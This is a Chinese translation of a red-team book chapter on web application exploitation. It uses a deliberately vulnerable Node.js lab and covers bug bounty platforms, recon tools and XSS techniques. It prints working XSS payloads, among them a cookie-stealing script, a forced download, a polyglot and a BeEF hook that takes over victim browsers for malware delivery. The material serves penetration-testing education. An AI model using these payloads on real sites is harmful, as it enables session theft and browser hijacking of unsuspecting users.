# 第3章 抛传——Web 应用程序漏洞利用

> 译者：[@Snowming](https://github.com/Snowming04)
> 
> 校对者：[@鶇](http://wp.blkstone.me)、[@leitbogioro](https://github.com/leitbogioro/)、@哈姆太郎、@匿名jack、[@Victor Zhu](https://zhuzhuuu.com/)



在过去几年中，我们看到了一些严重的、面向外部网络的 Web 攻击。从 Apache Struts 2开发框架漏洞（尽管 [Equifax 公司因 Apache Struts 2安全漏洞而造成数据泄露](http://bit.ly/2HokWi0)还未被确认），到美国快餐公司 [Panera Bread 数据泄露](http://bit.ly/2qwEMxH)，到 [Uber 信息泄露](http://ubr.to/2hIO2tZ)，攻击几乎波及了社会上的一切。毫无疑问，我们还会继续看到许多严重的面向公网的端点攻击。

整个安全行业以周期性模式运行。如果从 OSI 模型的不同层级来看，就会发现攻击每隔一年就会转移到不同的层。就 Web 而言，早在21世纪初，就有大量的 SQLi 和 RFI 类型的漏洞利用事件。然而，一旦公司开始加强其外部网络环境并开始进行外部渗透测试，我们作为攻击者，就要转而针对“第8层”攻击 —— 将社会工程学攻击（网络钓鱼）作为第一切入点。现在，正如我们看到的，各个组织通过新一代终端防护/防火墙来提高其内部安全性，所以我们的重点又转回了应用程序的漏洞利用。我们还看到应用程序、API 和编程语言的复杂性大幅增加，使得许多旧的甚至是新的漏洞重新出现。

由于本书更多地针对红队行动的概念，因此我们不会深入研究所有不同的 Web 漏洞或是如何手动利用它们。这本书并不是一本字典类型的参考工具书。你将关注的是红队队员和坏人在现实世界中所能看到的漏洞，例如那些危害到 PII（个人验证信息）、IP、网络等的漏洞。 对于那些正在寻找非常详细的 Web 渗透测试方法的人，我总是建议从 OWASP 测试指南开始（ http://bit.ly/2GZbVZd 和 https://www.owasp.org/images/1/19/OTGv4.pdf ）。

请注意，由于在上本书中提到的许多攻击都没有改变，因此我们不会在之后的练习中重复 SQLMap、IDOR 攻击和 CSRF 漏洞等示例。相反，我们将专注于新的关键问题。

## 漏洞赏金平台
在我们开始学习如何利用 Web 应用程序漏洞之前，让我们先谈谈漏洞赏金平台。我们见到的最常见的问题是，“我怎样才能在完成训练后继续学习？”最好的建议是针对真实的上线了的系统进行练习。你可以一直做靶场训练，但如果没有真实的入侵经验，就很难成长。

但有一点需要注意：平均而言，在你开始不断发现漏洞之前，需要大约3-6个月的沉淀时间。我们的建议是：不要感到沮丧，与其他漏洞赏金猎人保持交流，而且不要忘记可以去看看老一点的漏洞赏金项目。

比较常见的漏洞赏金平台是 [HackerOne](https://www.hackerone.com)，[BugCrowd](https://bugcrowd.com/programs) 和 [SynAck](https://www.synack.com/red-team/)。还有很多[其他的平台](https://www.vulnerability-lab.com/list-of-bug-bounty-programs.php)。这些平台可以支付从零到两万美元以上之间的奖励。

我的许多学生觉得开始寻找漏洞是件令人畏缩却步的事情。这真的需要你投入其中，每天花几个小时做这件事情，并专注于理解如何利用第六感找到漏洞。一般来说，开始的时候可以看看无报酬的漏洞赏金项目（因为专业的赏金猎人不会注意它们）或像 Yahoo 这样大型的老漏洞赏金项目。这些类型的站点往往具有很大的规模和许多遗留的旧服务器。正如在以前的书中提到的，确定测试范围很重要，寻找赏金漏洞也不例外。许多平台都指定了哪些可以做，哪些不可以做（比如禁止扫描、禁止自动化工具、哪些域名可以被攻击等）。有时你很幸运，他们允许你测试 *.company.com，但其他时候可能仅限于一个 FQDN（完全限定的域名）。

让我们以 eBay 为例，他们有一个公开的漏洞赏金平台。在他们的[漏洞赏金平台](http://pages.ebay.com/securitycenter/Researchers.html)上，他们说明了挖洞指南、符合条件的域名、符合条件的漏洞、不包括的项目、如何报告漏洞和白帽子公开致谢:



如何向公司报告漏洞通常与寻找漏洞本身同样重要。你要确保向公司提供尽可能多的细节。这将包括漏洞的类型、严重性/关键性、利用漏洞所采取的步骤、屏幕截图，甚至用到的 POC（proof of concept）。如果你需要一些帮助来创建风格统一的报告，可以查看和使用下面的报告生成表单: https://buer.haus/breport/index.php 。



我以前有运营自己漏洞赏金平台，有一件事需要注意的是，我在平台上看到了一些情况，研究人员会在验证漏洞时过于深入目标系统（超过了正常验证漏洞的范围）。例如包括在发现 SQL 注入后对数据库拖库，在接管子域后挂黑页填写他们认为有趣的内容，甚至在初始远程代码执行漏洞之后在生产环境中横向渗透。这些案例可能会导致法律问题，并有可能让联邦调查局找上门来。因此，请你最好谨慎判断，确认好测试范围，并记住，如果直觉觉得它是非法的，那么它可能就是非法的。

## 网络攻击介绍——Cyber Space Kittens
在完成侦察和发现之后，你回顾所有你发现的不同站点。浏览结果时，你没有发现常见的可进行漏洞利用的服务器或配置错误的应用程序。没有任何 Apache Tomcat 服务器或 Heartbleed/ShellShock，看起来他们修补了所有 Apache Strut 问题和 CMS 应用程序漏洞。

你的第六感直觉开始发挥作用，你开始研究他们的客户支持系统。感觉有些地方就是不对劲，但是在哪里呢?

对于本章中的所有攻击，都可以使用一个本书定制的 VMWare 虚拟机来复现这些实验。这个虚拟机可以在以下网站免费下载: 

* http://thehackerplaybook.com/get.php?type=csk-web

为搭建演示 Web 实验环境（客户支持系统）:

* 从以下位置下载本书的 VMWare 虚拟机：

    * http://thehackerplaybook.com/get.php?type=csk-web

* 下载在实验环境里要用到的完整命令列表：
 
    * https://github.com/cheetz/THP-ChatSupportSystem/blob/master/lab.txt

    * Bit.ly 链接： http://bit.ly/2qBDrFo

* 启动并登录 VM（虚拟机）

* 当 VM 完全启动时，它应该显示应用程序的当前 IP 地址。**你无需登录进 VM，所以登录密码也不需要**。你可以自行入侵这个程序。

* 由于这是一个托管在你自己系统上的 Web 应用程序，因此我们在攻击端 Kali 系统上创建一个主机名记录：

    * 在我们的攻击端 Kali 虚拟机上，让我们编辑 host 文件以指向我们的存在漏洞的应用程序（客户支持系统），以便可以通过 hostname 和 IP 来引用应用程序：
         * gedit /etc/hosts
    * 添加客户支持系统虚拟机的 IP
        * [客户支持系统的 IP]chat
    * 现在，打开 Kali 的浏览器并访问 http://chat:3000/ 。如果一切正常，你应该能够看到 NodeJS 自定义的客户支持系统程序。

Web 部分的命令和攻击可能非常冗长和复杂。为了方便起见，我在这里列出了每个实验需要的所有命令：https://github.com/cheetz/THP-ChatSupportSystem/blob/master/lab.txt

> `译者注：`<br>译者在尝试复现此实验时，发现没有获取到 ipv4 地址，后来切换了一下网卡设置，把“桥接模式”改成 NAT 就解决了。如果有读者遇到一样的问题可以参考此做法。<br>参考资料：https://github.com/cheetz/THP-ChatSupportSystem/issues/1

### 红队的 Web 应用程序攻击

前两本书着重于如何有效地测试 Web 应用程序 - 这一次会有所不同。我们将跳过许多基本攻击，并接触现实世界中使用的攻击手法。

由于这是一本实用性较强的书，所以我们不会详细讨论 Web 应用程序测试的所有技术细节。然而，这并不意味着这些细节应该被忽略。Web 应用程序测试的一个很好的资源是 `Open Web Application Security Project`，简称 OWASP。OWASP 侧重于应用程序的安全开发和用户教育。每隔几年，OWASP 都会编制并发布一个最常见漏洞的清单—— http://bit.ly/2HAhoGR 。一个更深层次的测试指南位于这里：http://bit.ly/2GZbVZd 。OWASP 的文档将带你了解要查找的漏洞类型、风险以及如何利用它们。这里有一个很好的清单文档：http://bit.ly/2qyA9m1 。

由于我的许多读者都试图进入安全领域，所以我想快速的提一件事：如果你想进行渗透测试工作，你至少要理解 OWASP Top 10 的方方面面，这是至关重要的。你不仅应该知道它们是什么，而且还应该根据风险类型以及如何检测它们了解一些好的示例。现在，让我们回到如何入侵 CSK 上来 。

### 聊天支持系统实验

将被攻击的聊天支持系统是交互式的，它突出了新的和旧的漏洞。正如你将看到的，对于以下许多实验，我们会提供不同版本的带有聊天支持系统的自定义虚拟机。

应用程序本身是用 Node.js 编写的。为什么选择 Node？作为渗透测试人员，我们要注意的是，它是使用率增长最快的应用程序之一。由于许多开发人员似乎都非常喜欢 Node，所以我觉得理解将 JavaScript 作为后端代码运行的安全含义是很重要的。

**什么是 Node？**

“Node.js® 是一个基于 Chrome V8引擎的 JavaScript 运行环境。Node.js 使用了一个事件驱动、非阻塞式 I/O 的模型，使其轻量又高效。”[Node.js](https://nodejs.org/en/) 的包生态系统，即 NPM，是世界上最大的开源库生态系统。

在最基本的层面上，Node.js 允许你在浏览器之外运行 JavaScript。由于 Node.js 具有精简，快速和跨平台的特性，所以它可以通过统一堆栈来大大简化项目。虽然 Node.js 不是 Web 服务器，但它允许服务器（可以用 JavaScript 编程的东西）存在于实际 Web 客户端之外的环境中。

优点：
* 非常快
* 单线程 JavaScript 环境，可以充当独立的 Web 应用程序服务器
* Node.js 不是协议；它是一个用 JavaScript 编写的 Web 服务器
* NPM 代码仓库拥有近50万个免费、可重用的 Node.js 代码包，这使它成为世界上最大的包管理器

随着 Node.js 在过去几年变得如此流行，对于渗透测试人员/红队成员来说，理解应该寻找什么突破口以及如何攻击这些应用程序是非常重要的。例如，一位研究人员发现，弱 NPM 凭证使他能够获取 13% 的 NPM 包的编辑和发布权限。通过依赖链，预计有52% 的 NPM 包是易受攻击的。<br>
[https://www.bleepingcomputer.com/news/security/52-percent-of-all-javascript-npm-packages-could-have-been-hacked-via-weak-credentials/]

在下面的示例中，我们的实验室将使用 Node.js 作为应用程序的基础，它将使用 [Express 框架](https://expressjs.com/)作为我们的 Web 服务器。然后，我们将把 [Pug](https://pugjs.org/) 模板引擎添加到我们的 Express 框架中。这类似于我们现在在新开发的应用程序中经常见到的东西。



Express 是一个用于 Node.js 的极简 Web 框架。Express 为 Web 和移动应用程序提供了一组强大的功能，因此你无需进行大量工作。使用名为 `Middlewares` 的模块，你可以添加第三方认证或服务，如 Facebook 身份验证或 Stripe 支付服务。

Pug，正式名称为 Jade，是一个服务器端模板引擎，你可以(但不是必须)与 Express 一起使用它。Jade 用于在服务器上以编程方式生成 HTML 页面并将其发送给客户机。

让我们开始攻击 CSK 并启动聊天支持系统虚拟机。

## Cyber Space Kittens：聊天支持系统
你偶然发现了面向外部网络的 CSK 聊天支持系统。当你慢慢筛选所有页面并了解底层系统时，你会在应用程序中寻找其弱点。你需要在服务器中找到第一个入口点，以便可以转入入侵生产环境。

你首先浏览了所有漏洞扫描程序和 Web 应用程序扫描程序的报告结果，但是一无所获。看起来这家公司经常运行常见的漏洞扫描器并修补了大部分问题。现在入侵的关键突破口在于代码问题、错误配置和逻辑缺陷。你还注意到此应用程序正在运行 NodeJS，这是一种最近很流行的语言。

### 设置你的 Web 应用程序攻击机器
虽然对于红队要面对的 Web 应用程序，并没有什么完美的入侵方法，但是你需要的一些基本工具包括：

* 用浏览器武装自己。许多浏览器的行为都非常不同，尤其是复杂的 XSS 规避机制：
    * Firefox（我的最爱）
    * Chrome
    * Safari

* Wappalyzer：一种跨平台的实用程序，可以揭示网站上使用的技术。它可以检测内容管理系统，电子商务平台，Web 框架，服务器软件，分析工具等等。
    * https://wappalyzer.com/

* BuiltWith：一个网站分析工具。在查找页面时，BuiltWith 会返回它在页面上可以找到的所有技术。BuiltWith 的目标是帮助开发人员，研究人员和设计人员找出正在使用的技术页面，这可以帮助他们决定自己采用哪些技术。
    * https://builtwith.com/

* Retire.JS：扫描 Web 应用程序所使用的易受攻击的 JavaScript 库。Retire.js 的目标是帮助你检测具有已知漏洞的版本的使用情况。
    * https://chrome.google.com/webstore/detail/retirejs/moibopkbhjceeedibkbkbchbjnkadmom?

* Burp Suite（约350美元）：虽然这个商业工具有点贵，但绝对物有所值，对于渗透测试人员和红队队员来说。它的好处来自附加组件，模块化设计和用户开发基础。如果你买不起 Burp，OWASP ZAP（免费）是一个很好的替代品。

### 分析 Web 应用程序
在我们进行任何类型的扫描之前，尝试理解底层代码和基础结构非常重要。我们怎样才能知道后端运行的是什么代码？我们可以使用 Wappalyzer，BuiltWith 或 Google Chrome 浏览器查看。在下面的图像中，当加载聊天应用程序时，我们可以在 Chrome 中看到 HTTP 标头具有 X-Powered By: Express。我们还可以在Wappalyzer 中看到应用程序正在使用 Express 和 Node.js。



盲目攻击网站之前了解目标应用程序可以帮助你提供更好的思路。这也有助于入侵可能有 WAF 的目标站点，允许你使用更多的攻击手法。

### 网络探测
在之前的书中，我们详细介绍了如何使用 Burp Suite 以及如何对站点进行渗透测试。我们将跳过很多设置基础知识，并将更多精力放在攻击网站上。

在这一点上，我们将假设你已经设置好了 Burp Suite（免费或付费），并且你使用的是本书的 Kali 镜像。一旦我们了解了底层系统，我们就需要识别所有端点。我们仍然需要运行与之前相同的探测工具。

* [Burp Suite](https://portswigger.net/burp)
    * 爬虫：在免费和付费版本中，Burp Suite 都有一个很棒的爬虫工具。
    * 内容探测：如果你使用的是付费版本的 Burp Suite，那么最受欢迎的探测工具之一就是 Discover Content。这是一个智能高效的工具，可以查找目录和文件。你还可以为扫描指定多种不同的配置。
    * 主动扫描：运行所有参数的自动漏洞扫描并测试多个 Web 漏洞。
* [OWASP ZAP](http://bit.ly/2IVNaO2)
    * 类似于 Burp，但完全开源和免费。具有类似的探测和主动扫描功能。
* Dirbuster
    * 一个很久以前就被开发出的旧工具，用于发现 Web 应用程序的文件/文件夹，但现在仍然可以顺利的完成工作。
    * 目标网址：http://chat:3000 
    * 字典：
        *  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
* [GoBuster](https://github.com/OJ/gobuster)
    * 非常轻量级、快速的目录和子域名爆破工具
    * gobuster -u http://chat:3000 -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -s 200,301,307 -t 20

你的字典列表非常重要。我最喜欢使用的一个汇总的字典列表是一个名为 raft 的旧字典，它是许多开源项目的集合。你可以在这里找到这些和其他有价值的字典列表：https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content （已包含在本书的 Kali 镜像中）。

现在既然我们已经完成了概述，让我们进行一些攻击吧。从红队的角度来看，我们正在寻找可以主动攻击的漏洞，并为我们提供最大的帮助。如果我们正在进行评估或渗透测试，我们可能会报告漏洞扫描程序中的 SSL 问题，默认 Apache 页面或其他漏洞扫描程序发现的不可利用的漏洞等。但是，在我们的红队工作中，我们可以完全忽略这些，并专注于能使我们获得高级访问权限，shell 或 转储 PII 的攻击。

### XSS 跨站脚本攻击
在这一点上，我们都曾经见过并利用过跨站点脚本攻击（XSS）。使用传统的 XSS 攻击测试网站上的每个变量的方式：<script>alert(1)</script>，对于漏洞赏金平台来说可能很有用，但我们可以做更多吗？我们可以使用哪些工具和方法来更好地利用这些攻击？

我们都知道 XSS 攻击是客户端攻击，允许攻击者创建特定的 Web 请求从而将恶意代码注入响应中。这通常可以通过客户机和服务器端的适当输入验证来修复，但这绝不是那么容易。为什么这么说？因为 XSS 漏洞由多种原因造成的。从编码不规范到不理解框架，有时候应用程序变得过于复杂，就很难理解一个输入点的安全性。

因为仅仅弹窗确实没有真正的危害，让我们从一些基本类型的 XSS 攻击开始：

* Cookie 窃取XSS：
```HTML
<script>document.write('/Stealer.php?cookie='%2B document.cookie %2B '"/>');</script>
```
* 强制下载文件：
```HTML
<script>var link = document.createElement('a'); link.href ='http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = '';document.body.appendChild(link); link.click();</script>
```
* 重定向用户：
```HTML
<script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>
```
* 其他脚本以启用键盘记录器，拍照等：
    *  http://www.xss-payloads.com/payloads-list.html?c#category=capture

#### 经过混淆的 XSS payload 和 XSS Polyglot
现在，标准的 XSS payload 通常仍然有效，但我们确实会遇到一些应用程序过滤字符或应用程序有 WAF 防护的情况。有两个很好的资源可以帮助你开始制作混淆的 XSS payload 攻击：

* https://github.com/foospidy/payloads/tree/master/other/xss 
* https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

有时在行动期间，你可能会遇到简单的 XSS 过滤器，它们会查找像 `<script>` 这样的字符串。混淆 XSS payload 是一种选择，但一定要注意并非所有 JavaScript payload 都需要打开和关闭 `<script>` 标签。有一些 HTML 事件属性在触发时执行 JavaScript（ https://www.w3schools.com/tags/ref_eventattributes.asp ）。这意味着任何专门针对 Script 标签的规则都是无效的。例如，下列这些执行 JavaScript 的 HTML 事件属性就不使用 `<script>` 标签：
* `<b onmouseover=alert('XSS')>Click Me!</b>`
* `<svg onload=alert(1)>`
* `<body onload="alert('XSS')">`
* ``

你可以通过访问应用程序来尝试 CSK 应用程序中的每个 HTML 实体攻击：http://chat:3000/ （记得修改 `/etc/host` 文件以指向与虚拟机 IP 的聊天）。进入后，注册一个帐户，登录应用程序，然后转到聊天功能（ http://chat:3000/chatchannel/1 ）。尝试不同的实体攻击和经过混淆的 payload。



XSS 的其他优秀资源：
* 第一个是由 @jackmasa 制作的思维导图。这是一个很棒的文档，它根据输入点的位置来分解不同的 XSS payload。虽然不再在 JackMasa GitHub 页面上，但是这里有一个[副本](http://bit.ly/2qvnLEq)。

* 另一个很好的资源，讨论哪些浏览器容易受到哪些 XSS payload 的影响：https://html5sec.org/ 。



如你所见，尝试在应用程序上查找每一个 XSS 有时是很烦人的。这是因为易受攻击的参数受到代码功能、不同类型的 HTML 标记、应用程序类型和不同类型的过滤的影响。试图找到初始 XSS 的弹出窗口可能需要很长时间。如果我们可以尝试将多个 payload 链接到单个请求中，该怎么办？

最后一种类型的 payload 称为 [Polyglot](http://bit.ly/2GXxqxH)。Polyglot payload 采用许多不同类型的 payload 和混淆技术，并将它们编译成一次攻击。这适用于想使用自动脚本查找 XSS、时间有限的的漏洞赏金项目，或者仅仅想要快速发现输入验证存在哪些问题等情况。

因此，我们可以像（ http://bit.ly/2GXxqxH ）这样构建一个 Polyglot，而不是普通的 `<script>alert(1)</script>`：
```
/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

如果你看一下上面的 payload,此攻击试图不使用尖括号，点和斜线的传统攻击代码；执行 onclick XSS；关闭多个标签；最后尝试一个 onload XSS。这些类型的攻击使 Polyglots 在识别 XSS 方面非常有效和高效。你可以在此处阅读有关这些 Polyglot XSS 的更多信息：https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot 。

如果你想测试和使用不同的 polyglots，可以从易受攻击的 XSS 页面（ http://chat:3000/xss ）或整个聊天应用程序开始。

**BeEF**

浏览器漏洞利用框架（ http://beefproject.com/ ）或简称 BeEF 将 XSS 攻击提升到另一个层次。此工具将 JavaScript payload 注入受害者的浏览器，该浏览器会感染用户的系统。这会在受害者的浏览器上创建一个 C2通道，用于 JavaScript 后期利用。

对红队来说，BeEF 是一个很好的工具，可用于入侵活动，跟踪用户，捕获凭据，执行点击劫持，使用 Tabna 进行攻击等等。如果不在攻击期间使用，BeEF 也是一个很好的工具，可以展示 XSS 漏洞的强大功能。这也有助于更复杂的攻击，我们将在后面的 Blind XSS 小节下讨论。

BeEF 分为两部分：一部分是服务器，另一部分是攻击 payload。要启动服务器：

在你的攻击者 Kali 主机上启动 BeEF
* 打开终端
    * beef-xss
* 使用 beef：beef
* 查看 http://127.0.0.1:3000/hook.js
* 完整 payload 文件：
    * `<script src="http://<Your IP>:3000/hook.js"></script>`


查看位于 http://127.0.0.1:3000/hook.js 上的 hook.js 文件，你应该会看到类似于长混淆的 JavaScript 文件的内容。这是连接受害者返回命令和控制服务器的客户端 payload 。

一旦在目标应用程序上识别出 XSS，而不是原始的 alert(1) 样式的 payload，就可以修改 `<script src ="http://<YourIP>:3000/hook.js"></script>` payload 来利用此漏洞。一旦你的受害者陷入此 XSS 陷阱，将导致他们的浏览器连接回你这边并成为你的僵尸网络的一部分。

BeEF 支持哪些类型的后渗透攻击？一旦你的受害者受到你的控制，你就可以做任何 JavaScript 可以做的事情。你可以通过 HTLM5打开相机并拍摄受害者的照片，你可以在屏幕上显示覆盖图以捕获凭据，也可以将其重定向到恶意网站以执行恶意软件。

以下是 BeEF 从 XSS 攻击中引发大量问题的快速演示：

首先，确保你的 BeEF 服务器在攻击者计算机上运行。在我们的易受攻击的聊天支持系统的应用程序中，你可以访问 http://chat:3000/xss 并在练习2的字段中输入你的 payload：
* `<script src="http://127.0.0.1:3000/hook.js"></script>`

一旦你的受害者连接到你的僵尸网络，你就可以完全控制他们的浏览器。你可以根据设备，浏览器和目标机器启用的功能进行各种攻击。通过社会工程学演示 XSS 影响力的一个好方法是通过 Flash 更新提示将恶意软件推送到他们的计算机。


一旦执行，将在受害者的计算机上显示弹出窗口，强制他们安装更新，其中包含我们准备的恶意软件。



我建议花一些时间熟悉所有 BeEf 的后渗透模块，并了解 JavaScript 的强大功能。由于我们会控制浏览器，因此我们必须弄清楚如何在红队活动中使用它。一旦你通过 XSS 感染了受害者，你还想做些什么？我们将在后面的“从 XSS 到 shell”部分讨论这个问题。

### Blind XSS 漏洞
Blind XSS 漏洞很少被讨论，因为它是需要耐心的游戏。什么是 Blind XSS 漏洞？正如攻击的名称所表示的那样，攻击者/用户看不到存储的 XSS payload 的执行（无回显），只有管理员或后台员工才能看到。由于其攻击后端用户的能力，所以这种攻击可能危害很大，但尽管如此，它还是经常被遗忘。

例如，我们假设某个应用程序有一个“联系我们”页面，允许用户向管理员提供联系信息，以便以后联系。由于该数据的结果只能由管理员手动查看而不是用户请求查看，所以如果应用程序易受 XSS 攻击，攻击者不会立即看到他们的 “alert(1)” 攻击的回显。在这些情况下，我们可以使用 [XSSHunter](https://xsshunter.com) 来帮助我们验证 Blind XSS 漏洞。

XSSHunter 的工作原理是，当我们的 JavaScript payload 执行时，它将截取受害者屏幕（他们正在查看的当前页面）的屏幕截图，并将该数据发送回 XSSHunter 的站点。发生这种情况时，XSSHunter 将发送一个警报，告知我们的 payload 已执行并向我们提供所有详细信息。我们现在可以回去创建一个恶意 payload 并重新进行我们的攻击。

XSS Hunter：
* 禁用任何代理（即 Burp Suite）
* 在 https://xsshunter.com 创建帐户
* 登录 https://xsshunter.com/app
* 转到 Payload 模块以获得你的 Payload 
* 修改 payload 以适应你的攻击或使用它构建 Polyglot
* 检查 XSS hunter 以查看 payload 执行情况





### 基于 DOM 的 XSS
对反射 XSS 和存储 XSS 的理解相对简单。我们已经知道，如果服务器没有为用户/数据库提供足够的输入/输出验证，我们的恶意脚本代码就会通过源代码呈现给用户。然而，在基于 DOM 的 XSS 中，它略有不同，这导致了一些常见的误解。因此，让我们花些时间专注于基于 DOM 的 XSS。

当攻击者可以操纵 Web 应用程序的客户端脚本时，就可以使用基于文档对象模型（DOM）的 XSS。如果攻击者可以将恶意代码注入 DOM 并由客户端的浏览器读取，则可以在从 DOM 读回数据时执行 payload。

DOM 究竟是什么？文档对象模型（DOM）是 HTML 属性的一个特性。由于你的浏览器不理解 HTML，因此它会使用将 HTML 转换为 DOM 模型的解释器。

让我们在聊天支持网站上试一下吧。查看易受攻击的 Web 应用程序，你应该能够看到聊天支持网站受到 XSS 攻击的流程：

* 创建一个帐户
* 登录
* 去聊天
* 尝试 `<script>alert(1)</script>`，然后尝试一些更疯狂的 XSS 攻击！

在我们的示例中，我们在服务器端有 Node.js，socket.io（Node.js 的库）在用户和服务器之间设置 Web 套接字，客户端 JavaScript 和我们的恶意 msg.msgText JavaScript。正如你在下面和页面的源代码中看到的那样，你不会像在标准的反射/存储的 XSS 中那样直接引用你的“弹窗” payload。在这个例子里，我们将得知唯一指示可以调用 payload 的位置来自 msg.name 引用。这有时会使我们很难确定执行 XSS payload 的位置，或者是否需要打破任何 HTML 标记。



### NodeJS 中的高级 XSS
XSS 可以不断用于攻击的一个重要原因是，仅靠过滤标签或某些字符防御它的话要困难得多。当 payload 特定于某种语言或框架时，XSS 很难防御。由于每种语言在此漏洞方面都有其独到之处，因此 NodeJS 也不会有什么不同。

在高级 XSS 部分中，你将学习一些特定语言的 XSS 漏洞发挥作用的示例。我们的 NodeJS Web 应用程序将使用一种更常见的 Web 堆栈和配置。此实现包括 [Express Framework](https://expressjs.com/) 和 [Pug 模板引擎](https://pugjs.org/)。重要的是要注意一点，默认情况下，Express 确实没有内置的 XSS 防护，除非通过模板引擎进行渲染。当使用像 Pub 这样的模板引擎时，有两种常见的方法可以找到 XSS 漏洞：(1)通过字符串插值，以及(2)缓冲代码。

模板引擎有一个字符串插值的概念，这是一种定义“字符串变量的占位符”的奇特方式。例如，让我们将字符串分配给 Pug 模板格式的变量：

```
- var title = "This is the HTML Title"
- var THP = "Hack the Planet" 
h1 #{title}
p The Hacker Playbook will teach you how to #{THP}
```

请注意，`#{THP}` 是 THP 之前分配的变量的占位符。我们通常会在电子邮件分发消息中看到这些模板。你是否收到过来自 `${first_name}`...的自动化系统发送的电子邮件而不是你的真实名字？这正是模板引擎的用途。

当上面的模板代码呈现为 HTML 时，它将如下所示：

```html
<h1>This is the HTML Title</h1>
<p>The Hacker Playbook will teach you how to Hack the Planet</p>
```

幸运的是，在这种情况下，我们使用 `#{}` 字符串插值，这是 Pug 插值的转义版本。如你所见，通过使用模板，我们可以创建可重用性非常高的代码并使模板非常轻量级。

Pug 支持转义和非转义字符串插值。隐藏和未转义之间的区别是什么？好吧，使用转义字符串插值将对 `<` ，`>` ，`'` 和 `"` 之类的字符进行 HTML 编码。这将有助于向用户提供输入验证。如果开发人员使用非转义字符串插值，这通常会导致 XSS 漏洞。

此外，字符串插值（或变量插值，变量替换或变量扩展）是评估包含一个或多个占位符的字符串文字的过程，从而产生一个结果，其中占位符替换为其对应的值。[https://en.wikipedia.org/wiki/String_interpolation]

* 在 Pug 隐藏和非转义字符串插值（ https://pugjs.org/language/interpolation.html ）：
    * `!{}` - 非转义字符串插值
    * `#{}` - 转义字符串插值 * 虽然这是转义的，但如果直接通过 JavaScript 传递它仍然可能容易受到 XSS 的攻击
* 在 JavaScript 中，未转义的缓冲区代码以“!=”开头。“!=”之后的任何内容都将自动作为 JavaScript 执行。
[https://pugjs.org/language/code.html#unescaped-buffered-code]
* 最后，只要允许插入原始 HTML，就有可能存在 XSS。

